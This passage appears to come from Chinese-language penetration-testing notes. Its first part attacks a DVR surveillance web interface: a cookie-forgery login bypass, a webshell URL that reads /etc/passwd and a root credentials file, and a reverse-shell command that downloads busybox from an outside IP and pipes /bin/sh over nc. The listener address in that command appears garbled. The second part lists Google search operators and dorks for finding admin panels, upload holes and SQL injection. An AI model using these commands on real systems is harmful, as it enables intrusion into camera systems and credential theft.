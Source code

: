   ```js
  }
  ```

  系统管理页面直接通过js检查cookie是否为空来判断用户是否登录。于是通过伪造cookie便可以绕过登录检查。通过代码可以看到需要伪造三个cookie值，dvr_camcnt，dvr_usr=admin，dvr_pwd=123。直接打开http://xx.xx.xx.xx/view2.html时，抓包发现系统会自动设置该cookie参数的值，这个值需要记录下来，否则后面填错的话是看不到监控内容的。dvr_usr和dvr_pwd可以随便设置，只要不为空就好。保存后重新刷新一下http://xx.xx.xx.xx/view2.html，便可以成功登录系统。

+ 直接获取webshell

  直接访问`<ip>/shell?cat%20/etc/passwd`或`<ip>shell?cat%20/tmp/usrm.ini`即可获取服务器root帐号密码。

+ 获取反弹shell

  执行命令：`cd/root/rec/a1 && wget http://212.111.43.161/busybox && chmod +x busybox && ./busybox  nc 122.115.47.398000 -e /bin/sh -e /bin/sh`，将反弹shell至122.115.47.39的8000端口。还可以执行命令`http://www.antian365.com/shell?/usr/sbin/telnetd-l/bin/sh -p 25`通过telnet目标IP直接进入系统。

实战例子请参考翻译文章。



## Google的使用

Google Hacking是利用谷歌搜索的强大，在浩瀚的互联网中搜索到我们需要的信息。轻量级的搜索可以搜素出一些遗留后门等；中量级的搜索出一些用户信息或源代码泄露等；重量级的则可能是mdb文件下载，网站配置密码，php远程文件包含漏洞等重要信息。**网站地址：[https://www.google.com/ncr](https://www.google.com/ncr)**。国内其竞品为[Baidu](https://www.baidu.com/)。

### 基本搜索

+ 通配符：`*`和`?`
+ 逻辑与：`+`，如`google + android`，搜索包含google且android的页面
+ 逻辑或：`|`，如`google | android`，搜索包含google或android的页面
+ 逻辑非：`-`，如`google -android`，搜索包含google且不包含android的页面

### 高级搜索

+ cache：将返回存储下来的历史页面。例如`cache:www.hackingspirits.com guest`将返回指定网站的缓存，并且正文中含有guest
+ info：返回指定站点的信息。例如`info:www.baidu.com`将返回百度的一些信息
+ site：指定访问的站点。例如`site:baidu.com inurl:Login`将只在baidu.com中查找url中含有Login的网页
+ (all)inurl：将返回url中含有关键词的网页。例如`inurl:Login`将返回url中含有Login的网页
+ (all)intitle：将返回标题中含有关键字的网页。例如`intitle:后台登录`将只返回标题中包含"后台登录"的网页
+ (all)intext：将返回正文中含有关键字的网页。例如`intext:后台登录`将只返回正文中包含"后台登录"的网页
+ filetype：指定访问的文件类型。例如`site:baidu.com filetype:pdf`将只返回baidu.com上文件类型为pdf的网页

而上面这些命令中用的最多的就是inurl，利用这个命令可以查到很多意想不到的东西。如查找SQL注入`inurl:?id=1`。

### 常见搜索

+ 查找网站后台
  + `site:xx.com inurl:login`
  + `site:xx.com intitle:后台`
  + `site:xx.com intext:管理`
+ 查看上传漏洞
  + `site:xx.com inurl:file`
  + `site:xx.com inurl:load`
+ 查看服务器使用的程序
  + `site:xx.com filetype:php`
  + `site:xx.com filetype:jsp`
  + `site:xx.com filetype:asp`
  + `site:xx.com filetype:aspx`
